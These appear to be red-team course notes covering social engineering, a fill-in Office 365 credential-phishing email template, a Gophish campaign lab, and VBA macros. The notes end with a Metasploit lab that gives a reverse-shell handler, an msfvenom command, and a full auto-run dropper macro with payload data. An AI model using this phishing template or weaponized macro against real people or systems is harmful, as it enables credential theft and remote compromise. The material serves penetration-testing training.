Furthermore, Social Networks have also led to the rise of employees advertently/inadvertently exposing a lot of private information that can be used by attackers in aid of their social engineering attacks (Emails, phone numbers, addresses etc).

#### History of Social Engineering

While many cybersecurity professionals think of social engineering as a technique exclusive to offensive security, that couldn’t be farther from the truth.
Social engineering is a practice that is as old as time. As long as there has been coveted information, there have been people seeking to exploit it.
The term social engineering was first coined by Dutch industrialist J.C. Van Marken in 1894. Van Marken suggested that specialists were needed to attend to human challenges in addition to technical ones. Social Engineering was defined as a way to encourage people to handle social relations similarly to how they approach machines/mechanical systems.

#### Social Engineering and Pentesting

While social engineering has been a very viable attack vector for attackers, it has often been overlooked by penetration testers until recently.

Contextualizing and operationalizing social engineering as a valid attack vector in penetration testing is a vital skill set to possess as a modern penetration tester.

In penetration testing and red teaming exercises, phishing simulations are valuable for assessing an organization’s susceptibility to social engineering attacks and identifying areas for improvement in security awareness and controls.

#### Types of Social Engineering

| Technique            | Description                                                                                     |
|----------------------|-------------------------------------------------------------------------------------------------|
| Phishing             | Deceptive emails, messages, or websites designed to trick recipients into revealing confidential information, such as passwords, account credentials, or financial data. |
| Spear Phishing       | Targeted phishing attacks that are customized for specific individuals or groups within an organization, often using personalized information or context to increase credibility. |
| Vishing (Voice Phishing) | Phishing attacks conducted over phone calls or voice messages, where attackers impersonate legitimate entities (e.g., IT support, bank representatives) to extract sensitive information or manipulate victims into taking specific actions. |
| Smishing (SMS Phishing) | Phishing attacks conducted via SMS or text messages, where recipients are tricked into clicking on malicious links or providing sensitive information by impersonating trusted entities. |
| Pretexting           | Creating a false pretext or scenario to gain the trust of targets and extract sensitive information. This may involve impersonating authority figures, colleagues, or service providers to manipulate victims into divulging confidential data. |
| Baiting              | Luring targets into performing a specific action (e.g., clicking on a malicious link, opening a malicious file) by offering enticing incentives or rewards, such as free software, prizes, or job opportunities. |
| Tailgating           | Physically following authorized individuals into restricted areas or facilities without proper authentication. Attackers exploit social norms or courtesy to gain unauthorized access to secure locations. |

#### Phishing

Phishing is one of the most prevalent and effective social engineering attacks used in penetration testing and red teaming. It typically involves the following steps:
1. **Planning and Reconnaissance:** Attackers research the target organization to identify potential targets, gather information about employees, and understand the organization’s communication channels and protocols.
2. **Message Crafting:** Attackers create deceptive emails or messages designed to mimic legitimate communications from trusted sources, such as colleagues, IT departments, or financial institutions. These messages often include urgent or compelling language to evoke a sense of urgency or fear.
3. **Delivery:** Attackers send phishing emails or messages to targeted individuals within the organization, using techniques to bypass spam filters and security controls. They may also leverage social engineering tactics to increase the likelihood of recipients opening the messages.
4. **Deception and Manipulation:** The phishing messages contain malicious links, attachments, or requests for sensitive information. Recipients are deceived into clicking on links, downloading attachments, or providing login credentials under false pretenses.

#### Spear-Phishing

Spear phishing is a targeted form of phishing attack that tailors malicious emails or messages to specific individuals or groups within an organization.

Unlike traditional phishing attacks, which cast a wide net and aim to deceive as many recipients as possible, spear phishing attacks are highly personalized and customized to exploit the unique characteristics, interests, and relationships of the intended targets.

##### Spear-Phishing Process

1. **Target Selection and Research:**
   - Attackers carefully select their targets based on specific criteria, such as job roles, departments, or organizational hierarchies.
   - Extensive reconnaissance is conducted to gather information about the targets, including names, job titles, roles, responsibilities, work relationships, and personal interests.
   - Publicly available sources, social media profiles, corporate directories, and leaked data may be mined to compile detailed profiles of the targets.

2. **Message Tailoring:**
   - Using the gathered information, attackers craft highly personalized and convincing emails or messages designed to appear legitimate and trustworthy.
   - The content of the messages may reference recent events, projects, or activities relevant to the target's role or interests to enhance credibility.
   - Attackers may impersonate trusted individuals, such as colleagues, supervisors, or external partners, to increase the likelihood of the targets opening the messages and taking the desired actions.

### Introduction to Pretexting - Theory

#### What is Pretexting?

Pretexting is the process of creating a false pretext or scenario to gain the trust of targets and extract sensitive information. This may involve impersonating authority figures, colleagues, or service providers to manipulate victims into divulging confidential data.

Simply put, it is putting someone or an employee in a familiar situation to get them to divulge information.

Unlike other forms of social engineering that rely on deception or coercion, pretexting involves the creation of a false narrative or context to establish credibility and gain the trust of the target.

#### Characteristics of Pretexting

- **False Pretense:** The attacker creates a fictional story or pretext to deceive the target into believing that the interaction is legitimate and trustworthy. This pretext often involves impersonating someone with authority, expertise, or a legitimate reason for requesting information or assistance.

- **Establishing Trust:** The attacker uses the pretext to establish rapport and build trust with the target. This may involve leveraging social engineering techniques, such as mirroring the target's language, tone, and behavior, to create a sense of familiarity and connection.

- **Manipulating Emotions:** Pretexting often exploits human emotions, such as curiosity, fear, urgency, or sympathy, to manipulate the target's behavior. By appealing to these emotions, the attacker can influence the target's decision-making process and increase compliance with their requests.

- **Information Gathering:** Once trust is established, the attacker seeks to extract sensitive information or access privileges from the target. This may involve posing as a trusted entity (e.g., colleague, vendor, service provider) and requesting information under the pretext of a legitimate need or emergency.

- **Maintaining Consistency:** To maintain the illusion of legitimacy, the attacker ensures that the pretext remains consistent and plausible throughout the interaction. This may require careful planning, research, and improvisation to adapt to the target's responses and maintain credibility.

#### Pretexting Examples

- **Tech Support Scam:** An attacker poses as a technical support representative from a legitimate company and contacts individuals, claiming that their computer is infected with malware. The attacker convinces the target to provide remote access to their computer or install malicious software under the pretext of fixing the issue.

- **Job Interview Scam:** An attacker pretends to be a recruiter or hiring manager from a reputable company and contacts job seekers, offering them fake job opportunities or conducting fraudulent job interviews. The attacker may request sensitive personal information or payment under the pretext of processing the job application.

- **Emergency Situation:** An attacker fabricates an emergency situation, such as a security breach, data leak, or system outage, and contacts employees, requesting immediate assistance or information. The attacker exploits the target's sense of urgency and concern to extract sensitive information or gain access to systems under the pretext of resolving the emergency.

#### Importance and Impact

Pretexting can be highly effective in bypassing technical controls and exploiting human vulnerabilities within organizations. It relies on psychological manipulation and social engineering tactics to deceive targets and achieve malicious objectives.

Pretexting attacks can lead to data breaches, financial losses, reputational damage, and regulatory penalties for organizations. Therefore, it is essential for organizations to raise awareness about pretexting techniques, implement robust security policies and procedures, and provide training to employees to recognize and mitigate social engineering attacks.

#### Pretexting Templates/Samples

**Corporate IT Department Upgrade**:
- **Pretext:** The attacker impersonates a member of the company's IT department and sends an email to employees, claiming that the company's email system is being upgraded. The email instructs recipients to click on a link to update their email settings to avoid service disruptions.
- **Objective:** To trick employees into clicking on the malicious link, which leads to a phishing website where they are prompted to enter their email credentials, allowing the attacker to steal their login information.

#### Pretexting Templates/Samples

```
<!-- PRETEXT OVERVIEW:
Credential capture.
$organization: Target organization.
$evilurl: URL to cloned Office 365 portal.
$evildomain: Spoofed domain.

Can be sent as helpdesk@domain.com.
Don't forget to setup the mailbox for user replies!
-->

**Subject: New Webmail - Office 365 Rollout**

Dear colleagues,

In an effort to continue to bring you the best available technology, $organization has implemented the newest version of Microsoft's Office 365 Webmail. Your existing emails, contacts, and calendar events will be seamlessly transferred to your new account.

Visit the [new webmail website]($evilurl) and login with your current username and password to confirm your upgraded account.

If you have additional questions or need clarification, please contact the Help Desk at helpdesk@$evildomain.

Thank you,
```

#### References and Resources

A library of pretexts to use on offensive phishing engagements: [PhishingPretexts](https://github.com/L4bF0x/PhishingPretexts/tree/master)

### Phishing with Gophish - Theory

#### Gophish

GoPhish is an open-source phishing framework designed for penetration testers and security professionals to simulate phishing attacks against their own organizations.

It provides a user-friendly platform to create, execute, and analyze phishing campaigns, allowing users to assess their organization's susceptibility to phishing attacks and improve their security posture.

GoPhish is a powerful tool for penetration testers and security professionals to conduct phishing assessments, educate employees about phishing risks, and strengthen the organization's defenses against social engineering attacks.

##### Gophish Features

- **Campaign Creation**:
GoPhish allows users to create customized phishing campaigns tailored to their specific objectives and targets. Users can create multiple campaigns with different templates, email content, and target lists.

- **Email Template Editor**:
The platform provides a built-in email template editor with a WYSIWYG (What You See Is What You Get) interface, making it easy to design professional-looking phishing emails that mimic legitimate communications.

- **Target Management**:
Users can manage their target lists and segment them based on various criteria, such as department, role, or location. This allows for targeted phishing campaigns that closely mirror real-world attack scenarios.

- **Landing Page Creation**:
GoPhish enables users to create phishing landing pages that mimic legitimate login portals or websites. These landing pages can be customized to capture credentials, personal information, or other sensitive data from targets.

- **Tracking and Reporting**:
The platform provides comprehensive tracking and reporting capabilities, allowing users to monitor the progress of their phishing campaigns in real-time. Users can track email opens, link clicks, and submitted data, and generate detailed reports for analysis.

- **Scheduling and Automation**:
GoPhish supports campaign scheduling and automation, allowing users to schedule campaign launches at specific dates and times or set up recurring campaigns for ongoing testing and assessment.

##### References and Resources

- [Gophish Website](https://getgophish.com/)
- [Gophish GitHub Repo](https://github.com/gophish/gophish)
- [Gophish Installation Guide](https://docs.getgophish.com/user-guide/installation)

### Let's Go Phishing with Gophish - Lab

#### Lab Environment

**Goal**
This lab covers the process of creating and sending a phishing email with Gophish.

#### Lab Solution

Download [the latest release of Gophish from github](https://github.com/gophish/gophish/releases).

`dir ./Desktop`:
```
    Directory: C:\Users\Administrator\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         4/8/2022   5:02 AM                GoPhish ←
-a----         4/8/2022   1:07 AM            652 gophish.exe - Shortcut.lnk
-a----         4/8/2022   3:25 AM          13456 Password Reset Email.txt
-a----         4/8/2022   1:44 AM            197 targets.csv
```

`dir ./GoPhish`:
```
    Directory: C:\Users\Administrator\Desktop\GoPhish

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         4/8/2022   1:00 AM                db
d-----         4/8/2022   1:00 AM                static
d-----         4/8/2022   1:00 AM                templates ←
-a----         4/8/2022   1:00 AM            435 config.json ←
-a----         4/8/2022   5:02 AM         311296 gophish.db
-a----         4/8/2022   1:00 AM       34866078 gophish.exe
-a----         4/8/2022   1:17 AM            607 gophish_admin.crt
-a----         4/8/2022   1:17 AM            288 gophish_admin.key
-a----         4/8/2022   1:00 AM           1115 LICENSE
-a----         4/8/2022   1:00 AM           3274 README.md
-a----         4/8/2022   1:00 AM              7 VERSION
```

View the GoPhish configuration file.

`cd ./GoPhish`, `type config.json`:
```json
{
        "admin_server": {
                "listen_url": "127.0.0.1:3333", ←
                "use_tls": false, ←
                "cert_path": "gophish_admin.crt",
                "key_path": "gophish_admin.key"
        },
        "phish_server": {
                "listen_url": "0.0.0.0:80",
                "use_tls": false,
                "cert_path": "example.crt",
                "key_path": "example.key"
        },
        "db_name": "sqlite3",
        "db_path": "gophish.db",
        "migrations_prefix": "db/db_",
        "contact_address": "",
        "logging": {
                "filename": "",
                "level": ""
        }
}
```

**Note**: Set `use_tls` to `false`. If you need to use Gophish in a real pentest, change the `listen_url` to the URL of the Gophish server.

Run the Gophish executable: `.\gophish.exe`.
Open the Gophish server login page in Firefox: `start firefox http://localhost:3333/login`.
**Note**: You may receive a "Warning: Potential Security Risk Ahead" message if using TLS.

Use the following credentials to log in to the Gophish server:
- Username: "admin"
- Password: "phishingpasswd".

Ensure the email server is running.

`netstat -ano | findstr ":25"`:
```
TCP    0.0.0.0:25             0.0.0.0:0              LISTENING       2556 ←
```

Create a new sending profile in the Gophish dashboard in order to send emails.

Sending Profile:
```
Name: Read Team
Interface Type: SMTP
From: info <support@demo.ine.local>
Host: localhost:25 ←
Username: red@demo.ine.local
Password: penetrationtesting
```

Send a test email to verify functionality:
```
Name: Vic
Surname: Tim
Email: victim@demo.ine.local
Position: Intern
```

Create a new page to mimic a login portal and verify the server is running.

`netstat -ano | findstr ":8080"`:
```
TCP    0.0.0.0:8080           0.0.0.0:0              LISTENING       4 ←
TCP    127.0.0.1:8080         127.0.0.1:49987        ESTABLISHED     4
...
```

Open the hosted webpage in Firefox: `start firefox http://localhost:8080`.

Configure the landing page.

Landing Page:
```
Name: INE Password Reset
Import Site: http://localhost:8080 ←
Capture Submitted Data: Yes
Capture Passwords: Yes
Redirect to: https://my.ine.com/login
```

Set up the email template.

Email Template:
```
Name: INE Password Reset
Import Email: <PasswordResetEmailTemplate>
Add Tracking Image: Yes
```

Optionally, we could attach a malicious document to the email template.

Create a user group to which send the email templates.

Users Group:
```
Name: INE Employees
Bulk Import Users: <UsersGroupCSV>
```

Set up and launch the phishing campaign.

Campaign:
```
Name: INE Password Reset
Email Template: INE Password Reset
Landing Page: INE Password Reset
URL: http://localhost:80
Sending Profile: Red Team
Groups: INE Employees
```

Track the campaign's progress by monitoring:
- Emails Sent
- Emails Opened
- Clicked Links
- Submitted Data

And the status for each email sent.

---

## Development and Weaponization

### Resource Development and Weaponization - Theory

#### Resource Development and Weaponization

In the context of red teaming and penetration testing, resource development and weaponization are two crucial phases that occur during the lifecycle of an attack/pentest.
The terms "resource development" and "weaponization", originated in military strategy, have been adapted and applied in cybersecurity to describe key phases in the lifecycle of cyberattacks.
Resource development focuses on acquiring or building the necessary resources for an attack, while weaponization involves turning those resources into effective cyber weapons.

The two terms are sometimes used interchangeably given their overlapping objectives; however, it is very important to understand the distinction between the two.
This can be done by understanding how these terms have been used and implemented into modern-day cybersecurity frameworks and kill chains like The MITRE ATT&CK Framework and the Cyber Kill Chain (Lockheed Martin).
Both the MITRE ATT&CK Framework and the Cyber Kill Chain are widely used methodologies in cybersecurity, and they provide structured approaches to understanding and analyzing cyber threats.

#### The MITRE ATT&CK Framework

The MITRE ATT&CK framework is a globally accessible knowledge base of adversary tactics and techniques based on real-world threats and threat actors (APT groups). It was developed to improve the understanding of how cyber attacks are performed.
ATT&CK is an abbreviation for Adversarial Tactics, Techniques, and Common Knowledge.
The MITRE ATT&CK Framework is typically employed/used as a baseline and model for adversarial behavior and highlights the various phases of an adversary/threat attack lifecycle, what software they employ, and the OSs they target.

It is mostly used by Red/Blue Teamers to plan, implement, and orchestrate engagements based on specific threat actors/APTs (adversary emulation/simulation).
It is also a valuable resource for blue teamers as it details the various TTPs used by specific threat actors and provides companies with valuable cyber threat intelligence (CTI) that can consequently be used to implement defenses and mitigations.
MITRE ATT&CK categorizes adversarial techniques into a collection of tactics further organized into techniques, sub-techniques, and procedures (TTPs).

#### Resource Development

In the context of red teaming and the MITRE ATT&CK Framework, resource development involves gathering, creating, or acquiring the necessary tools, techniques, and knowledge to execute an attack or penetration test effectively.
This phase typically involves researching vulnerabilities, understanding the target environment, and identifying potential attack vectors.
Resources could include exploit code, custom scripts, reconnaissance tools, social engineering tactics, or any other assets needed to carry out the simulated attack.
The goal of resource development is to equip the red team or penetration tester with everything they need to successfully breach the target’s defenses.

- Tactics categorize each step of the adversary’s attack methodology.
- Tactics represent the adversary’s tactical goal or objective.
- Techniques are used to outline how each tactic is orchestrated.
- Techniques describe actions taken by adversaries to achieve their objective.
- Sub-Techniques outline the implementation of a specific technique in detail.
- Procedures outline all known implementations of a technique or sub-technique.

#### The Cyber Kill Chain

The Cyber Kill Chain, developed by Lockheed Martin, is a framework used to describe the stages of a cyber attack from the initial reconnaissance to the exfiltration of data.
It consists of several sequential stages, each representing a phase that an attacker must go through to achieve their objectives.
Red teaming often involves the use of the Cyber Kill Chain framework to simulate and assess an organization’s defensive capabilities.



#### Weaponization

Weaponization is the process of taking the resources developed in the previous phase and converting them into actual weapons that can be used to exploit vulnerabilities and compromise the target system.
This phase involves crafting payloads, creating malicious files, or configuring exploit code to deliver the intended impact, such as gaining unauthorized access, exfiltrating data, or disrupting services.
Weaponization often involves combining various techniques and tools in a way that maximizes their effectiveness while minimizing the risk of detection.

#### Resource Development vs Weaponization

- **Focus:** Resource development focuses on acquiring the necessary tools and knowledge, whereas weaponization focuses on turning those resources into active attack payloads or techniques.
- **Stage in the Attack Lifecycle:** Resource development typically precedes weaponization. Once the necessary resources are developed, they are then weaponized for use in the attack.
- **Nature of Activities:** Resource development activities may include research, reconnaissance, and tool development. Weaponization involves creating and configuring attack payloads, crafting malicious files, and preparing exploit code.
- **Output:** Resource development outputs tools, knowledge, and information about the target environment. Weaponization outputs actual attack payloads or techniques ready for deployment.



##### References and Resources

- **Cyber Kill Chain (Lockheed Martin):** https://www.lockheedmartin.com/en-us/capabilities/cyber/cyber-kill-chain.html
- **MITRE ATT&CK:** https://attack.mitre.org/
- **Unified Cyber Kill Chain:** [https://www.unifiedkillchain.com/](https://www.unifiedkillchain.com/)

### VBA Macro Fundamentals - Theory

#### Visual Basic Application (VBA)

Visual Basic for Applications (VBA) is a programming language developed by Microsoft for automating tasks and <u>extending the functionality of its Office suite of applications, including Excel, Word, PowerPoint, Access, and Outlook</u>.
VBA scripting can be used to automate processes, interact with the Windows API, and implement user-defined functions. It also enables you to manipulate the user interface features of the host applications.
<u>Microsoft Word and Excel allow users to embed VBA macros in documents/spreadsheets</u> for the automation of manual tasks and management of dynamic data and for the linking of documents.

##### Visual Basic Application (VBA) Features

- **Purpose:** VBA allows users to write programs (macros) to automate repetitive tasks, perform calculations, manipulate data, create custom forms, and interact with other applications.
- **Integration:** VBA is tightly integrated into Microsoft Office applications, providing access to a rich set of objects, properties, methods, and events that allow for extensive customization and automation.
- **Syntax:** VBA syntax is similar to other programming languages like Visual Basic (VB) and BASIC. It uses a combination of keywords, operators, variables, and control structures to create executable code.
- **Development Environment:** Each Office application includes a built-in VBA Integrated Development Environment (IDE) where users can write, edit, debug, and run VBA code. The IDE provides tools for code editing, debugging, and project management.
- **Objects and Methods:** VBA allows users to work with objects that represent elements of the Office application (e.g., worksheets, cells, shapes) and manipulate them using methods and properties. For example, in Excel, you can write VBA code to automate data manipulation, chart creation, or report generation.

#### VBA Macros

In the context of client-side attacks and VBA (Visual Basic for Applications), macros refer to small programs or scripts written in VBA that automate tasks and extend the functionality of applications, particularly within the Microsoft Office suite.
Simply put, <u>a Macro is a piece of VBA code embedded in Office documents</u>.
Macros have been popularly weaponized to facilitate the execution of arbitrary code or executables.
This Microsoft feature got abused by computer viruses in the late 1990s, mainly due to its powerful functionality and the fact that, at the time, Office file macros were automatically executed by default.
As of MS Office 2003, this behavior was altered. Macros were no longer executed automatically when an Office file was loaded and a GUI would pop-up informing users of macro presence inside the file.
MS Office 2007 took macro security a step further. Macros could not be embedded at all within the default MS Word document file. This effort was facilitated by the OfficeOpen XML standard, based on which Microsoft introduced four distinct file formats.

##### MS Office File Formats

|File Extension|File Type|Macros Permitted|
|---|---|---|
|DOCX|compressed document|No|
|DOTX|compressed template|No|
|DOCM|compressed document|Yes|
|DOTM|compressed template|Yes|

Microsoft Windows uses file extension to determine the software that will handle the opening of a file once it is clicked.
By the time Microsoft Office is installed, the above extensions are associated with it. Subsequently, all of the file types will be handled by the Microsoft Office suite of programs.

Microsoft Word performs file data validation prior to opening a file. Data validation is performed in the form of data structure identification, against the OfficeOpen XML standard.
The validation is actually performed by MS Office’s WWLIB.DLL component.
The file name extension plays no role in this data validation process. If any error occurs during the data structure identification, the file being analyzed will not be opened.

It should be noted that DOCM files containing macros can be renamed as other file formats by changing the file extension and still keep their macro executing capabilities.
For example, an RTF file does not support macros, by design, but a DOCM file renamed to RTF will be handled by Microsoft Word and will be capable of macro execution.

#### WScript and VBA

##### WScript

<u>**WScript** is a Windows Script Host object model that provides a scripting environment for executing scripts on Windows-based operating systems</u>.
It allows users to run scripts written in scripting languages such as VBScript (Visual Basic Script) and JScript (JavaScript) directly from the command line or as part of automated processes.
In the context of VBA (Visual Basic for Applications), <u>WScript can be utilized to extend the capabilities of VBA macros by enabling them to interact with the Windows operating system, execute external commands, manipulate files and folders, and perform other system-related tasks</u>.

##### WScript and VBA

- **Accessing WScript Object Model**: <u>In VBA macros, you can create an instance of the WScript object to access its properties and methods</u>. This allows you to perform various system-level operations, such as displaying messages, accessing environment variables, and running external programs.
- **Displaying Messages**: Using WScript, you can display dialog boxes and messages to interact with users during the execution of VBA macros. For example, you can show informative messages, warnings, prompts for user input, or error notifications.
- **Running External Programs**: WScript enables VBA macros to execute external programs or commands directly from within Office applications. This capability is useful for automating tasks that require interaction with other applications or executing system utilities.

#### VBA Macros and Client-Side Attacks

- **Delivery Mechanism:** Malicious actors often use macros embedded within documents (e.g., Word documents, Excel spreadsheets) as a delivery mechanism for malware. These documents are typically distributed via email or other channels, enticing users to enable macros, thereby executing the embedded malicious code.
- **Social Engineering:** Macros are frequently employed in social engineering attacks, where users are tricked into enabling macros under the guise of accessing content or functionality within the document. Once enabled, the malicious macros execute, compromising the user's system.
- **Exploiting Vulnerabilities:** Macros can exploit vulnerabilities in client-side applications, such as Microsoft Office, by leveraging features like macro scripting, ActiveX controls, and embedded objects. Vulnerabilities in these features can be exploited to execute arbitrary code on the victim's system.
- **Payload Delivery:** Malicious macros often serve as a payload delivery mechanism, facilitating the execution of malware or other malicious actions on the victim's system. Once macros are enabled, they can download and execute additional payloads from remote servers, leading to further compromise.

### VBA Macro Development (Manual) - Lab

#### Lab Solution

##### Creating a Macro in Microsoft Word

To enable the Developer tab in Microsoft Word, follow these steps:
1. Go to `File` > `Options`.
2. In the `Customize Ribbon` section, check `Developer`.
3. Next, go to `Trust Center` > `Trust Center Settings` > `Macro Settings`.
4. Disable all macros and enable "Trust access to the VBA project object model."

Now, in a new Word document:
1. Open the `Developer` tab.
2. Click `Macros`, select "Macros in the current document," and create a new Macro.

Example of a simple macro:
```vb
Sub HelloWorld()
    MsgBox "Hello World!"
End Sub
```

Example with additional options:
```vb
Sub HelloWorld()
    MsgBox "Hello World!", vbInformation, "Message Box Demo"
End Sub
```

The macros created are for testing purposes, and to run them, we need to click on `Run` from the Microsoft Visual Basic for Applications program.

##### Creating a Macro in Microsoft Excel

You can also create macros in Excel. For example, insert a new button from the Developer tab and link it to a macro.

Example of a macro for a button click:
```vb
Sub Button_Click()
    MsgBox "Report Generated!", vbInformation, "Message Box Demo"
End Sub
```

Example of creating a new worksheet:
```vb
Sub Button_Click()
    MsgBox "Tracker Generated in New Sheet"
    Dim ws As Worksheet
    Set ws = ThisWorkbook.Sheets.Add
    ws.Name = "RedTeamTracker"
End Sub
```

##### Advanced Word Document Macro

Let's create a macro in a Word document to run a program.

Example to run Calculator:
```vb
Sub PoC()
    Dim payload As String
    payload = "calc.exe"
    CreateObject("Wscript.Shell").Run payload, 0
End Sub
```

Example to run Notepad:
```vb
Sub PoC()
    Dim wsh As Object
    Set wsh = CreateObject("Wscript.Shell")
    wsh.Run "notepad.exe", 3, False
End Sub
```

The window style parameter controls how the program is displayed (hidden, minimized, maximized, etc.).

##### Saving Macro-Enabled Documents

When saving a document with macros, select:
- "Word Macro-Enabled Document" (.docm) or
- "Word 97-2003 Document" (.doc).

##### Running a Program on Document Open

To run a program when opening a Word document, create two new subroutines (macros). These macros ensure that the specified action is performed whenever the document is opened.

Example:
```vb
Sub Document_Open()
    PoC
End Sub

Sub AutoOpen()
    PoC
End Sub

Sub PoC()
    Dim wsh As Object
    Set wsh = CreateObject("Wscript.Shell")
    wsh.Run "notepad.exe", 3, False
End Sub
```

The reason for creating both `Document_Open` and `AutoOpen` macros is to ensure compatibility with different versions of Word and to maximize the chances that the desired action (running the PoC macro) will be executed when the document is opened.

Once you have saved the document with these macros, when you open it, you will need to click on "Enable Content" in the security warning that appears. After enabling the content, the macro will execute automatically.

##### Reading a Registry Key with a Macro

Example of a macro to read a registry key:
```vb
Sub Document_Open()
    RegKeyRead
End Sub

Sub AutoOpen()
    RegKeyRead
End Sub

Sub RegKeyRead()
    Dim wsh As Object
    Set wsh = CreateObject("Wscript.Shell")
    Dim regKey As String
    regKey = "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion"
    MsgBox "Product Name: " & wsh.RegRead(regKey & "\ProductName")
End Sub
```

### Weaponizing VBA Macros (with Metasploit) - Lab

#### Lab Solution

`msfvenom --list formats`:
```
Framework Executable Formats [--format <value>]
===============================================

    Name
    ----
    asp
    aspx
    aspx-exe
    axis2
    dll
    ducky-script-psh
    elf
    elf-so
    exe
    exe-only
    exe-service
    exe-small
    hta-psh
    jar
    jsp
    loop-vbs
    macho
    msi
    msi-nouac
    osx-app
    psh
    psh-cmd
    psh-net
    psh-reflection
    python-reflection
    vba
    vba-exe ←
    vba-psh ←
    vbs
    war

Framework Transform Formats [--format <value>]
==============================================

    Name
    ----
    base32
    base64
    bash
    c
    csharp
    dw
    dword
    go
    golang
    hex
    java
    js_be
    js_le
    masm
    nim
    nimlang
    num
    octal
    perl
    pl
    powershell
    ps1
    py
    python
    raw
    rb
    ruby
    rust
    rustlang
    sh
    vbapplication
    vbscript
    zig
```

`ip addr show eth1`:
```
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:9d:2e:ba brd ff:ff:ff:ff:ff:ff
    inet 192.168.42.23/24 brd 192.168.42.255 scope global dynamic noprefixroute eth1 ←
       valid_lft 395sec preferred_lft 395sec
    inet6 fe80::a50f:d743:435d:299a/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
```

##### Create VBA Macros with MSF using vba-exe Format

<span style="color: #e57373;">**Attacker machine**</span>.

Configure and start the Metasploit Handler.

`vim /root/Desktop/handler.rc`:
```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.42.23
set LPORT 4444
run
```

`msfconsole -r /root/Desktop/handler.rc`

Create VBA Macros with MSF.

`cd /var/www/html`

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.42.23 LPORT=4444 -f vba-exe -o ./reverse_vba-exe.txt`:
```
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of vba-exe file: 20369 bytes
Saved as: /var/www/html/reverse_vba-exe.txt ←
```

`cat ./reverse_vba-exe.txt`:
```vb
'**************************************************************
'*
'* This code is now split into two pieces:
'*  1. The Macro. This must be copied into the Office document
'*     macro editor. This macro will run on startup.
'*
'*  2. The Data. The hex dump at the end of this output must be
'*     appended to the end of the document contents.
'*
'**************************************************************
'*
'* MACRO CODE
'*
'**************************************************************

Sub Auto_Open()
	Cryez12
End Sub

Sub Cryez12()
	Dim Cryez7 As Integer
	Dim Cryez1 As String
	Dim Cryez2 As String
	Dim Cryez3 As Integer
	Dim Cryez4 As Paragraph
	Dim Cryez8 As Integer
	Dim Cryez9 As Boolean
	Dim Cryez5 As Integer
	Dim Cryez11 As String
	Dim Cryez6 As Byte
	Dim Erebmznszh as String
	Erebmznszh = "Erebmznszh"
	Cryez1 = "xBYSmsPkG.exe"
	Cryez2 = Environ("USERPROFILE")
	ChDrive (Cryez2)
	ChDir (Cryez2)
	Cryez3 = FreeFile()
	Open Cryez1 For Binary As Cryez3
	For Each Cryez4 in ActiveDocument.Paragraphs
		DoEvents
			Cryez11 = Cryez4.Range.Text
		If (Cryez9 = True) Then
			Cryez8 = 1
			While (Cryez8 < Len(Cryez11))
				Cryez6 = Mid(Cryez11,Cryez8,4)
				Put #Cryez3, , Cryez6
				Cryez8 = Cryez8 + 4
			Wend
		ElseIf (InStr(1,Cryez11,Erebmznszh) > 0 And Len(Cryez11) > 0) Then
			Cryez9 = True
		End If
	Next
	Close #Cryez3
	Cryez13(Cryez1)
End Sub

Sub Cryez13(Cryez10 As String)
	Dim Cryez7 As Integer
	Dim Cryez2 As String
	Cryez2 = Environ("USERPROFILE")
	ChDrive (Cryez2)
	ChDir (Cryez2)
	Cryez7 = Shell(Cryez10, vbHide)
End Sub

Sub AutoOpen()
	Auto_Open
End Sub

Sub Workbook_Open()
	Auto_Open
End Sub

'**************************************************************
'*
'* PAYLOAD DATA
'*
'**************************************************************

Erebmznszh
&H4D&H5A&H90&H00&H03&H00&H00&H00&H04&H00&H00&H00&HFF&HFF&H00&H00&HB8&H00&H00&H00&H00&H00&H00&H00&H40&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H80&H00&H00&H00&H0E&H1F&HBA&H0E&H00&HB4&H09&HCD&H21&HB8&H01&H4C&HCD&H21&H54&H68&H69&H73&H20

...

00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H7F&H44&H9E&H87&H52&HB0&H5D&H37&H9C&H5C&HC5&H0D&H5B&H74&H4C&HFC&HCA&H0E&HD0&H1A&H0C&HE9&HAA&H5C&H7A&H73&H2D&HF7&H4E&HB5&HF1&H91&HFE&HED&HDC
```

This code is split into two parts:
1. **Macro Code**: This part must be copied into the Office document's macro editor. The macro will run on startup.
2. **Payload Data**: The hex dump at the end of this output must be appended to the end of the document contents.

Start the web server to serve the payload.

`sudo systemctl start apache2`

`sudo netstat -antp | grep ":80"`:
```
tcp6       0      0 :::80                   :::*                    LISTEN      21486/apache2       ←
```

<span style="color: #64b5f6;">**Target (victim) machine**</span>.

Now we need to create a new Word document with an embedded macro.

**Steps to Follow**

1. **Copy the Macro Code**:
    - Open the Office document's macro editor.
    - Copy and paste the entire "Macro Code" section into the macro editor.
    - Save and close the macro editor.
2. **Append the Payload Data**:
    - Open the Office document in which the macro was saved.
    - Copy the "Payload Data" section.
    - Paste the hex dump data at the end of the document contents.

**Enabling and Running the Macro**

- Once the document is saved, reopen it.
- A security warning will appear. Click "Enable Content" to allow the macro to run.
- The macro will execute automatically upon enabling the content.

`getuid`:
```
Server username: BOB-PC\bob
```

`sysinfo`:
```
Computer        : BOB-PC
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : en_US
Domain          : REDTEAMLAB
Logged On Users : 7
Meterpreter     : x86/windows
```

`bg`, `sessions -K`

##### Create VBA Macros with MSF using vba-psh Format

